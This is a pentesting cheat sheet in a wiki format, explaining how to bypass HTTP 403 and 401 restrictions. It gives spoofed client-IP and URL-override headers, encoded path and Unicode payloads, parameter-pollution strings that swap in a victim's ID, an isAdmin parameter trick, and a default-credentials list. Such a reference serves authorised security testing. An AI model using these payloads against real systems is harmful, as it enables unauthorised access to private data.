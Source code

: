 # 403 & 401 Bypasses

{{#include ../../banners/hacktricks-training.md}}

## HTTP Verbs/Methods Fuzzing

Try using **different verbs** to access the file: `GET, HEAD, POST, PUT, DELETE, CONNECT, OPTIONS, TRACE, PATCH, INVENTED, HACK`

- Check the response headers, maybe some information can be given. For example, a **200 response** to **HEAD** with `Content-Length: 55` means that the **HEAD verb can access the info**. But you still need to find a way to exfiltrate that info.
- Using a HTTP header like `X-HTTP-Method-Override: PUT` can overwrite the verb used.
- Use **`TRACE`** verb and if you are very lucky maybe in the response you can see also the **headers added by intermediate proxies** that might be useful.

## HTTP Headers Fuzzing

- **Change Host header** to some arbitrary value ([that worked here](https://medium.com/@sechunter/exploiting-admin-panel-like-a-boss-fc2dd2499d31))
- Try to [**use other User Agents**](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/User-Agents/UserAgents.fuzz.txt) to access the resource.
- **Fuzz HTTP Headers**: Try using HTTP Proxy **Headers**, HTTP Authentication Basic and NTLM brute-force (with a few combinations only) and other techniques. To do all of this I have created the tool [**fuzzhttpbypass**](https://github.com/carlospolop/fuzzhttpbypass).

  - `X-Originating-IP: 127.0.0.1`
  - `X-Forwarded-For: 127.0.0.1`
  - `X-Forwarded: 127.0.0.1`
  - `Forwarded-For: 127.0.0.1`
  - `X-Remote-IP: 127.0.0.1`
  - `X-Remote-Addr: 127.0.0.1`
  - `X-ProxyUser-Ip: 127.0.0.1`
  - `X-Original-URL: 127.0.0.1`
  - `Client-IP: 127.0.0.1`
  - `True-Client-IP: 127.0.0.1`
  - `Cluster-Client-IP: 127.0.0.1`
  - `X-ProxyUser-Ip: 127.0.0.1`
  - `Host: localhost`

  If the **path is protected** you can try to bypass the path protection using these other headers:

  - `X-Original-URL: /admin/console`
  - `X-Rewrite-URL: /admin/console`

- If the page is **behind a proxy**, maybe it's the proxy the one preventing you you to access the private information. Try abusing [**HTTP Request Smuggling**](../../pentesting-web/http-request-smuggling/) **or** [**hop-by-hop headers**](../../pentesting-web/abusing-hop-by-hop-headers.md)**.**
- Fuzz [**special HTTP headers**](special-http-headers.md) looking for different response.
  - **Fuzz special HTTP headers** while fuzzing **HTTP Methods**.
- **Remove the Host header** and maybe you will be able to bypass the protection.

## Path **Fuzzing**

If _/path_ is blocked:

- Try using _**/**_**%2e/path \_(if the access is blocked by a proxy, this could bypass the protection). Try also**\_\*\* /%252e\*\*/path (double URL encode)
- Try **Unicode bypass**: _/**%ef%bc%8f**path_ (The URL encoded chars are like "/") so when encoded back it will be _//path_ and maybe you will have already bypassed the _/path_ name check
- **Other path bypasses**:
  - site.com/secret –> HTTP 403 Forbidden
  - site.com/SECRET –> HTTP 200 OK
  - site.com/secret/ –> HTTP 200 OK
  - site.com/secret/. –> HTTP 200 OK
  - site.com//secret// –> HTTP 200 OK
  - site.com/./secret/.. –> HTTP 200 OK
  - site.com/;/secret –> HTTP 200 OK
  - site.com/.;/secret –> HTTP 200 OK
  - site.com//;//secret –> HTTP 200 OK
  - site.com/secret.json –> HTTP 200 OK (ruby)
  - Use all [**this list**](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Unicode.txt) in the following situations:
    - /FUZZsecret
    - /FUZZ/secret
    - /secretFUZZ
- **Other API bypasses:**
  - /v3/users_data/1234 --> 403 Forbidden
  - /v1/users_data/1234 --> 200 OK
  - {“id”:111} --> 401 Unauthriozied
  - {“id”:\[111]} --> 200 OK
  - {“id”:111} --> 401 Unauthriozied
  - {“id”:{“id”:111\}} --> 200 OK
  - {"user_id":"\<legit_id>","user_id":"\<victims_id>"} (JSON Parameter Pollution)
  - user_id=ATTACKER_ID\&user_id=VICTIM_ID (Parameter Pollution)

## **Parameter Manipulation**

- Change **param value**: From **`id=123` --> `id=124`**
- Add additional parameters to the URL: `?`**`id=124` —-> `id=124&isAdmin=true`**
- Remove the parameters
- Re-order parameters
- Use special characters.
- Perform boundary testing in the parameters — provide values like _-234_ or _0_ or _99999999_ (just some example values).

## **Protocol version**

If using HTTP/1.1 **try to use 1.0** or even test if it **supports 2.0**.

## **Other Bypasses**

- Get the **IP** or **CNAME** of the domain and try **contacting it directly**.
- Try to **stress the server** sending common GET requests ([It worked for this guy wit Facebook](https://medium.com/@amineaboud/story-of-a-weird-vulnerability-i-found-on-facebook-fc0875eb5125)).
- **Change the protocol**: from http to https, or for https to http
- Go to [**https://archive.org/web/**](https://archive.org/web/) and check if in the past that file was **worldwide accessible**.

## **Brute Force**

- **Guess the password**: Test the following common credentials. Do you know something about the victim? Or the CTF challenge name?
- [**Brute force**](../../generic-hacking/brute-force.md#http-brute)**:** Try basic, digest and NTLM auth.

```:Common creds
admin    admin
admin    password
admin    1234
admin    admin1234
admin    123456
root     toor
test     test
guest    guest
```

## Automatic Tools

- [https://github.com/lobuhi/byp4xx](https://github.com/lobuhi/byp4xx)
- [https://github.com/iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403)
- [https://github.com/gotr00t0day/forbiddenpass](https://github.com/gotr00t0day/forbiddenpass)
- [Burp Extension - 403 Bypasser](https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122)
- [Forbidden Buster](https://github.com/Sn1r/Forbidden-Buster)
- [NoMoreForbidden](https://github.com/akinerk/NoMoreForbidden)


{{#include ../../banners/hacktricks-training.md}}



